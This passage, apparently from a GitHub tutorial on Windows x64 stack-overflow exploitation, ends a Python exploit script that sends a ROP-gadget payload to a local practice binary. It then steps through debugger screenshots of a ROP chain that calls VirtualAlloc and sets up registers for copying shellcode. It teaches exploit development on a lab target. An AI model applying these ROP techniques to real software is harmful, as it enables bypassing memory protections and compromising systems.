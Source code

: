 ```python
payload += struct.pack("<Q", 0x14000192f)  # jmp rax; 
payload += struct.pack("<Q", 0x14000192f)  # jmp rax;

# Run the vulnerable program and supply the payload
process = subprocess.Popen(
    ["C:/Users/robbi/Documents/GitHub/elevationstation_local/overflow3.exe"],  # Replace with the path to your compiled binary
    stdin=subprocess.PIPE,
    stdout=subprocess.PIPE,
    stderr=subprocess.PIPE
)

#uncomment to allow debugging in x64dbg
input("attach 'overflow.exe' to x64Dbg and press enter when you're ready to continue...")

# Send the payload
stdout, stderr = process.communicate(input=payload)

# Output the program's response
print(stdout.decode())
if stderr:
    print(stderr.decode())
```

***Executing our Exploit - Visuals***
-

**Go ahead and start your exploit via the familiar process we've been using:**

<img width="1802" height="688" alt="image" src="https://github.com/user-attachments/assets/1658d99f-5193-4b50-9acb-efc414b49b7d" />

**Now, let's step into our program's execution until we reach `VirtualAlloc`**

<img width="1213" height="165" alt="image" src="https://github.com/user-attachments/assets/8ca236da-c5dd-403e-975b-2ab40256b4b4" />

**Continue stepping through your code until you reach this point.  This is where we land on our ROP gadget chain for setting up the `R8 register`:**

<img width="1143" height="696" alt="image" src="https://github.com/user-attachments/assets/c7056346-a0d1-40ca-803e-e1b4fef321f4" />

**At this point, we're going to get creative.  We will go through all the necessary gadgets to add `0x1000` to the `R8 register`, which is the size in bytes we wish to copy.  We will also preemptively prepare for the RCX register which will hold the value for our destination memory address. In our case, that's where we want to copy the shellcode!  By popping the RAX value into RBX, we can begin to get setup for moving that value into RCX later.  Step through the program execution and look at your `RAX` and `RBX registers`.  You'll see RBX get populated with RAX's value, which is our destination memory address:**

<img width="1035" height="346" alt="image" src="https://github.com/user-attachments/assets/c2e57fc6-2a4c-4912-964d-92909ed54c49" />

**Now, step through the program once more until you get to here.  Check out the R8 register value.  It's set to 0x1000 !**
